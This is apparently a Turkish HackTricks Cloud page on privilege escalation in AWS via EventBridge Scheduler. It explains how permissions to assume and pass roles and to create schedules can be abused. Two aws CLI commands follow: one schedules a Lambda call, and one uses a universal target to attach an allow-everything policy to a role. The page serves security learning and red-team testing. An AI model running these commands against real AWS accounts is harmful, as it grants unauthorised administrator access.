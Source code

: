 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler, çeşitli AWS hizmetlerine çağrılar planlayarak ayrıcalık yükseltmek için kullanılabilir. Planlı bir şekilde hizmetleri çağırma yeteneğinden yararlanarak, yeterli izinlere sahip kullanıcılar ayrıcalıkları yükseltebilir. İşte EventBridge Scheduler'ın şablon hedefleri kullanarak tetikleyebileceği bazı temel eylemler:

- Lambda: lambda:InvokeFunction - Lambda fonksiyonlarını bir program dahilinde çağırın.
- CodeBuild: codebuild:StartBuild - AWS CodeBuild projelerini başlatın.
- CodePipeline: codepipeline:StartPipelineExecution - AWS CodePipeline yürütmelerini tetikleyin.
- ECS: ecs:RunTask - ECS görevlerini çalıştırın.
- EventBridge: events:PutEvents - EventBridge'e olaylar ekleyin.
- Inspector: inspector:StartAssessmentRun - Amazon Inspector değerlendirmelerini başlatın.
- Kinesis: kinesis:PutRecord - Kinesis akışlarına kayıt ekleyin.
- Firehose: firehose:PutRecord - Firehose teslim akışlarına kayıt ekleyin.
- SageMaker: sagemaker:StartPipelineExecution - SageMaker boru hattı yürütmelerini başlatın.
- SNS: sns:Publish - SNS konularına mesaj yayınlayın.
- SQS: sqs:SendMessage - SQS kuyruklarına mesaj gönderin.
- Step Functions: states:StartExecution - AWS Step Functions yürütmelerini başlatın.

Bunlar, EventBridge Scheduler'ın gerçekleştirebileceği şablon eylemlerden sadece birkaçıdır. Ancak, evrensel hedefler kullanarak, AWS hizmetleri arasında birçok başka eylem de tetiklenebilir. Evrensel hedefler, şablonlu listenin ötesinde daha kapsamlı API işlemlerine olanak tanır.

EventBridge Scheduler hakkında daha fazla bilgi için:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

`sts:AssumeRole`, `iam:PassRole` ve `scheduler:CreateSchedule veya scheduler:UpdateSchedule` izinlerine sahip kullanıcılar, daha yüksek ayrıcalıklara sahip bir rol kullanarak EventBridge Scheduler'ı hizmetleri çağırmak için kullanarak ayrıcalıkları yükseltebilir.

Bu izinlerle, bir saldırgan, yükseltilmiş ayrıcalıklara sahip bir rolü üstlenebilir ve bir program oluştururken veya güncellerken bu rolü EventBridge Scheduler'a geçirebilir. Program, daha önce listelenen herhangi bir eylemi gerçekleştirecek şekilde yapılandırılabilir; örneğin, Lambda fonksiyonlarını çağırmak, ECS görevlerini başlatmak, CodePipeline yürütmelerini tetiklemek veya EventBridge Scheduler tarafından desteklenen 270 AWS hizmetinden herhangi birinin işlemini gerçekleştirmek. Bu eylemleri planlayarak, bir saldırgan, AWS hizmetleri arasında yetkisiz işlemler gerçekleştirmek için daha yüksek ayrıcalıkları kötüye kullanabilir.
\\

Örneğin, programı bir şablon eylemi olan bir Lambda fonksiyonunu çağıracak şekilde yapılandırabilirler:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
EventBridge Scheduler'da şablonlu hizmet eylemlerine ek olarak, birçok AWS hizmeti için geniş bir API işlemleri yelpazesini çağırmak üzere evrensel hedefler kullanabilirsiniz. Evrensel hedefler, neredeyse her API'yi çağırma esnekliği sunar. Bir örnek, "putRolePolicy" politikasına sahip bir rol kullanarak "AdminAccessPolicy" eklemek için evrensel hedeflerin kullanılabilir.
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Referanslar

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
